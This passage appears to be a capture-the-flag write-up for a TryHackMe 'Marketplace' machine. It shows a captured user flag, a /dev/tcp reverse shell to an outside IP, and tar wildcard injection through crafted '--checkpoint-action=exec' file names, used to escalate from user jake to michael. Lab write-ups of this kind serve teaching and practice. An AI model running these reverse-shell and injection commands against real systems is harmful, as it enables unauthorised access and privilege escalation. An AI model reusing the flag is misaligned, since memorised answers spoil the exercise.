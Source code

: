 ```┌──(kali㉿kali)-[~]
jake@the-marketplace:~$ ls
user.txt
jake@the-marketplace:~$ cat user.txt
THM{c3648ee7af1369676e3e4b15da6dc0b4}
jake@the-marketplace:~$
```

-> Obtained Flag 2 (User.txt)

-> Running ```sudo -l```:
```
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

```
jake@the-marketplace:/opt/backups$ ls
backup.sh  backup.tar
jake@the-marketplace:/opt/backups$ cat backup.sh
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

-> Looking up tar on gtfo.bins, we find this:
![](attachments/Pasted%20image%2020250623170545.png)

Reverse shell script:
```
#!/bin/bash
bash -i >& /dev/tcp/10.8.35.149/4433 0>&1
```

Creating files required as in gtfo.bins command:
```
touch "/var/www/html/--checkpoint-action=exec=bash shell.sh"
touch "/var/www/html/--checkpoint=1"
```

We now have escalated privileges to michael:
```
jake@the-marketplace:/opt/backups$ touch ./--checkpoint=1
jake@the-marketplace:/opt/backups$ touch ./--checkpoint-action=exec=sh shell.sh
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.shBacking up files...
$ whoami
michael
```
